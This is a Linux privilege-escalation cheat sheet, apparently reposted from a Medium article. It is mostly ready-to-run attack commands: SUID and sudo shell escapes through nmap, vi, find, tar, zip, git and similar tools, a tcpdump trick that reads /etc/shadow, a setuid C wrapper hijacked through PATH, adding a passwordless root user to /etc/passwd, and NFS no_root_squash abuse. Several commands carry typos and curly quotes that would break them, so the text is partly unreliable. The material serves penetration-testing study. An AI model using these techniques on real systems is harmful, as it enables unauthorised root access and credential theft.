 Original artical - https://medium.com/@liau.weijie/privilege-escalation-on-linux-platform-8b3fbd0b1dd4

Linux Pric Esc Commands

## 01 Kernel Exploit

	$ uname -a
	$ cat /etc/issue
	$ cat /etc/*-release
	$ cat /etc/lsb-release
	$ cat /etc/redhat-release
	$ lsb_release

## 02 Exploit the service running as root

For Samba 2.2.x, 
 - https://www.exploit-db.com/exploits/10

For MySQL, if there is mysql daemon running as root, you could utilize UDF (User Define Function) to get root shell.
 - https://www.exploit-db.com/exploits/1518

## 03 Find anything with SUID / SGID permission

### Finding interesting file

	$ find / -user root -perm -4000 2>/dev/null
	$ find / -perm -2000 2>/dev/null


### namp 

	$ nmap --interactive
	nmap> !sh

	Another way below (if nmap doesn’t have interactive mode):
	$ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse)
	$ sudo nmap --script=/tmp/shell.nse)

### vi

	$ vi
	:!sh

### find
	$ find / home -exec sh -i \;

### python

	$ python -c ‘import pty;pty.spawn(“/bin/sh”)’

### strace

	$ strace -o /dev/null /bin/sh


### tcpdump

	$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
	$ chmod +x /tmp/.shell
	$ tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root


If you find out one script file with SUID permission, owned by root and executable by others, and this script file will execute some commands. You can play the trick to get root shell. For example here, this script will execute scp command transferring some backup file to somewhere. Add . into $PATH and compile setuid.c, rename the compiled binary to scp and put it under current folder. And then run that script.

	$ export PATH=.:$PATH
	$ cat setuid.c
		#include <stdio.h>
		int main(void)
		{
		setuid(0); setgid(0); seteuid(0); setegid(0); execvp(“/bin/sh”, NULL, NULL);
		}
	$ mv setuid scp
	$ ./script.sh

### abuse sudo

Use the following command to show which command have allowed to the current user.

	$ sudo -l

And if you find the following command with NOPASSWD and root set in the output. You win again !!!

### zip

    $ sudo zip /tmp/test.zip /tmp/test -T --unzip-command=”sh -c /bin/bash”

### tar

    $ sudo tar cf /dev/null testfile --checkpoint=1 — checkpointaction=exec=/bin/bash

### strace

    $ sudo strace -o/dev/null /bin/bash

### tcpdump

    $ echo $’id\ncat /etc/shadow’ > /tmp/.shell
    $ chmod +x /tmp/.shell
    $ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root

### nmap

    $ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse
    $ sudo nmap --script=/tmp/shell.nse

    Another way below:
    ($ sudo nmap --interactive
    nmap> !sh)

### scp

    $ sudo scp -S /path/to/your/script x y

### except

    $ sudo except spawn sh then sh

### nano

    $ sudo nano -S /bin/bash

### git

    $ sudo git help status
    : !/bin/bash

### gdb/ftp

    $ sudo ftp
    : !/bin/sh



## 05 Find any writable file owned by root

Please use the following command to find any writable files owned by root. You might be able to see the script file and add the needed command for your privilege escalation.

    $ find / -perm -002 -user root -type f -not-path “/proc/*” 2>/dev/null

## 06 Check /etc/passwd if writable

If you see /etc/passwd is writable, the only thing you should do is to echo one line to /etc/passed

    $ echo “tseruser::0:0:pawned:/root:/bin/bash” >> /etc/passwd
    $ su testuser
	
## 07 NFS root squashing

According Wikipedia, root squash is a special mapping of the remote superuser (root) identity when using identity authentication (local user is the same as remote user). Under root squash, a client’s uid 0 (root) is mapped to 65534 (nobody). It is primarily a feature of NFS but may be available on other systems as well.

In the scenario which you use showmount to find your target has NFS service up and running and you’re already in via anyway and you find you have the permission to edit /etc/exports as well, for example, you can use sudoedit to edit /etc/exports. You can put no_root_squash to disable root squash. Please see below:

    /home/userfolder *(rw,no_root_squash)

And then you can mount this folder with local root and put the copy of /bin/bash into it. After this, try use the exploited normal account to execute this /bin/bash. You will get the heaven !!!

## 08 Useful tools

	- LinEnum
	https://github.com/rebootuser/LinEnum
	
	- linuxprivchecker
	https://github.com/sleventyeleven/linuxprivchecker
	
	- unix-privesc-check
	https://github.com/pentestmonkey/unix-privesc-check
